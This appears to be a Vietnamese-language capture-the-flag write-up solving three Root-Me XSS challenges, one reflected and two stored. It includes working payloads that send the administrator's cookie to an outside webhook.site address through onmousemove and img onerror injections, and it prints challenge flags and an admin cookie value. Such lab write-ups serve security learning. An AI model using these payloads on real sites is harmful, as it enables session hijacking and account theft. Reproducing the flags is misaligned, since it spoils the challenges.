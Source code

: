 # XSS - Reflected
alert(’xtra stupid security’)

**Statement**

Find a way to steal the administrator’s cookie.

Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.
## Cách làm
Truy cập vào link http://challenge01.root-me.org/web-client/ch26/ ta sẽ thấy giao diện:

![image](https://github.com/aQ05/Write-up/assets/121664384/b0830567-58d6-46ea-b51a-c2c6b969bfd3)

Click vào từng mục, ta dễ dàng thấy ở mỗi mục có một thuộc tính `p` được gắn giá trị tương ứng từng mục:
![Screenshot 2023-11-11 145248](https://github.com/aQ05/Write-up/assets/121664384/a1ec5dec-0d3d-4d87-a7d3-c7dc92fd8c62)

Thử gán thuộc tính `p` đó cho câu lệnh `<script>alert(1)</script>` để kiểm tra xem nó có dính lỗi XSS hay không

![image](https://github.com/aQ05/Write-up/assets/121664384/8ed0492d-991e-4661-8f7e-d4e00a4c42e0)

Khi request đến `?p=<script>alert(1)</script>`, website hiển thị trang web lỗi và có một hyperlink thẻ <a> hiển thị nội dung ‘<script>alert(1)</script>’. Có thể thấy web đã dính lỗi XSS:

![image](https://github.com/aQ05/Write-up/assets/121664384/a7829112-fe4b-448b-883c-a15d6248a8ab)

Thử nhập `?p=ayuq' onmousemove='alert(1)`, page sẽ báo lỗi và hiển thị nội dung trong thẻ <a>.  (`onmousemove` khi trỏ chuột vào thì nó sẽ chạy đoạn js bên trong).

![image](https://github.com/aQ05/Write-up/assets/121664384/a756767e-6e32-4113-975d-a5b1aad6bb02)

Khi đó, ta thực hiện gửi cookie của admin vào host của mình.

Payload: `ayuq' onmousemove='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?".concat(document.cookie)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c6f69bd0-f38a-4781-9e82-610e23e907c2)

Thực hiện request với payload. Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

![image](https://github.com/aQ05/Write-up/assets/121664384/102832e4-d086-4119-a80b-e2f3e269d2f9)

![Screenshot 2023-11-11 160952](https://github.com/aQ05/Write-up/assets/121664384/a6a8c118-390f-4652-82db-1a58d76dc8e5)

## Flag
`r3fL3ct3D_XsS_fTw`
# XSS - Stored 1
So easy to sploit

**Statement:** Steal the administrator session cookie and use it to validate this chall.
## Cách làm
Truy cập vào link http://challenge01.root-me.org/web-client/ch18/

![image](https://github.com/aQ05/Write-up/assets/121664384/d4fb4482-d55a-4807-bb40-1083cacdb7e3)

Trước hết ta kiểm tra xem nó bị XSS ở đâu bằng cách nhập `<script>alert(1)</script>` vào từng trường và thấy dữ liệu được lưu lại khi nhập vào ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/6ca93f7e-d63f-4c67-81eb-ac44c5744587)

 Dính lỗi Stored XSS tại ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/9e9bb840-c70d-478f-9429-c705037b2f02)

Payload một đoạn script dẫn đến host của mình kèm theo admin, ở đây chúng ta sử dụng thẻ `img` với thuộc tính `onerror` (nếu đường link dẫn đến ảnh bị lỗi thì nó sẽ tự động thực thi đoạn script bên trong mà không cần thao tác của người dùng).

Payload: `<img src=a onerror='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?"+document.cookie'/>`

![image](https://github.com/aQ05/Write-up/assets/121664384/9524d672-fba8-4de7-a5e6-99cc94b3fe33)

Khi gửi ta sẽ thấy một cái ảnh bị lỗi và tự thực thi câu lệnh

![image](https://github.com/aQ05/Write-up/assets/121664384/45edbd9b-7a5e-4681-9ed1-cfe99b64e3d0)

![Screenshot 2023-11-11 214521](https://github.com/aQ05/Write-up/assets/121664384/80211e65-d540-4dbe-a361-5b9926b0b0f0)
## Flag
`NkI9qe4cdLIO2P7MIsWS8ofD6`

# XSS - Stored 2
Author

**Statement:**
Steal the administrator session’s cookie and go in the admin section.
## Cách làm
Truy cập link http://challenge01.root-me.org/web-client/ch19/

![image](https://github.com/aQ05/Write-up/assets/121664384/a0fd7f02-239e-4e30-be8d-e9b1b9834dca)

Giao diện ở đây tương tự như bài Stored 1, cũng là gửi message mà lưu lại chờ admin đọc. Trước hết ta kiểm tra xem nó bị XSS ở đâu bằng cách nhập `<script>alert(1)</script>` vào từng trường và thấy dữ liệu được lưu lại khi nhập vào ô `message`.

![image](https://github.com/aQ05/Write-up/assets/121664384/32391831-5ed1-4d3a-b5c8-a06aa0d551ed)

Kiểm tra thử thì thấy có điều đặc biệt ở đây là **Status: invite** ở mỗi post. Xem source thì thấy status được đặt trong thẻ `i`.

![image](https://github.com/aQ05/Write-up/assets/121664384/5f502bde-8b49-4244-85f5-3c4e0cbc4cab)

Và nó được xử lý dựa trên cookie này:

![image](https://github.com/aQ05/Write-up/assets/121664384/f0ce66a9-f1b0-47bc-93fd-d77073f55495)

Thử dùng Burp Suite xem có thể thay đổi được status không thì thấy status được gửi qua phần cookie và có thể tùy ý thay đổi:

![image](https://github.com/aQ05/Write-up/assets/121664384/20a3572d-e879-4c32-b592-edccee2bdea8)

 Thử payload XSS vào: `a"><script>alert(1)</script>`
 
![image](https://github.com/aQ05/Write-up/assets/121664384/9844faad-731f-48fe-b609-a5597135d4d7)

Từ đó, ta đã có chỗ để tiêm XSS vào rồi. 
![image](https://github.com/aQ05/Write-up/assets/121664384/b27093ad-0b2b-43e9-9cb4-8a50d054ad22)

Tương tự các bài stored,
`ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`
## Flag
